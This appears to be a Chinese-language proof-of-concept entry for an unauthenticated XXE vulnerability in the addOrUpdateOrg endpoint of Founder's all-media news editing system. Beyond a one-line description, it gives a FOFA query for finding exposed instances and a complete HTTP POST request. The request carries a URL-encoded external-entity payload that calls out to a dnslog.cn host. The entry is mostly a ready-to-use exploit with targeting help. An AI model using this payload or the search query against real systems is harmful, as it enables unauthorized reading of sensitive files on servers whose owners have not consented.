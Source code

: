 ## 方正畅享全媒体新闻采编系统addOrUpdateOrg存在XXE漏洞

方正畅享全媒体新闻采编系统addOrUpdateOrg存在XXE漏洞，未经身份认证的攻击者可以利用此漏洞读取系统内部敏感文件，获取敏感信息，使系统处于极不安全的状态。

## fofa

```javascript
app="FOUNDER-全媒体采编系统"
```

## poc

```javascript
POST /newsedit/api/orgUser/addOrUpdateOrg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Connection: close

xmlStr=%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%20remote%20SYSTEM%20%22http://11111111111.m9cp0s.dnslog.cn%22%3E%20%25remote;%5D%3E
```

![image-20241012131400968](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121314025.png)
